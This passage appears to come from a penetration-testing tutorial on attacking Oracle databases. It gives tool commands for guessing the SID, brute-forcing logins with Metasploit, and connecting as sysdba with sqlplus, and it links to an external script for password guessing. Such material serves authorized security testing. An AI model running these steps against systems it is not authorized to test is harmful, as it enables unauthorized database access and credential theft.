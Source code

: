 * Lastly you can now run ODAT

```
./odat.py -h
```

#### Attack Methodology

To start attacking oracle DB we need four different things

```
IP
PORT
SID (Service Identifier)
Username/Password
```

The IP is same is the ip of your target. The port can be found in your nmap scan

**Finding SID**

The SID can be found with ODAT

```
odat sidguesser -s [target-ip]
```

Or with metasploit

```
msf auxiliary(admin/oracle/sid_brute) > run
```

**Finding username and password**

The username and password can be brute-forced with metasploit. However before we run any brute force we have to set the SID which we found in the previous step. In the below case, the SID is \[xss]

```
msf auxiliary(login_brute) > set SID xss 
SID => xss
msf auxiliary(login_brute) > run
```

If you couldn't determine the username/password then you can use the below python script

```
https://drive.google.com/drive/u/0/folders/1nefmwAXLjNpmD_O0B3NsRSI29YP6lrc_
```

**Connecting to the DB**

Lastly after finding the username and password we can connect to the db with sqlplus

```
sqlplus username/pass@ip:port/sid as sysdba
```

**Enumerating the DB**

After successful connection, we can enumerate the privileges of the current user

```
SQL> select * from user_role_privs;
```

